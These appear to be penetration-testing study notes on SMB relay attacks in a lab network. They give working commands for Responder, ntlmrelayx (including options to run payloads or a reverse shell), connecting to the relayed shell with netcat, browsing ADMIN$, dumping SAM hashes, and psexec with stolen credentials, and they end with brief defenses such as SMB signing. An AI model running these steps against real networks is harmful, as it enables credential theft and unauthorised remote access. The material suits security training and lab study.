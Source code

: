 		responder -I {IP/tun0/eth0/wlan0} -rdwv

- Setup Relay

		python3 /opt/impacket/examples ntlmrelayx.py -tf targets.txt -smb2support
		
		-i for interactive
		-e <filename> for exec (probably payload)
		-c for exec command (like Reverse Shell)

- In Windows 10 E browse at

		\\{IP}

<div style="page-break-after: always;"></div>

![[SMB Relay.png]]

<br>

*we have received connection from `IP 10.55.100.179` and now,\
 we will be targeting `smb://10.55.100.190`,\
 using **Taylor's** credentials,\
if Taylor is an **admin** on that machine,\
it works and Dumps SAM Files (or SAM Hashes)!* 

<br>

If -i mode is used, you will get a message that an interactive shell has been started at 		

	127.0.0.1:11000

Simply use netcat to load shell up

	nc 127.0.0.1 11000

Then you may browse to other shares

	shares
	use ADMIN$
	ls

*Now, use smbexec, wmiexec, psexec or Metasploit to break in!*

	psexec.py domain/user:password@ip 

<div style="page-break-after: always;"></div>

## Defense Against SMB Relay

<br>

- Enable SMB Signing on all devices
	
		Completely stops the attack
		Can cause performance issues with file copies

- Disable NTLM authentication on network

		Completely stops the attack
		If Kerberos stops working, Windows defaults back to NTLM
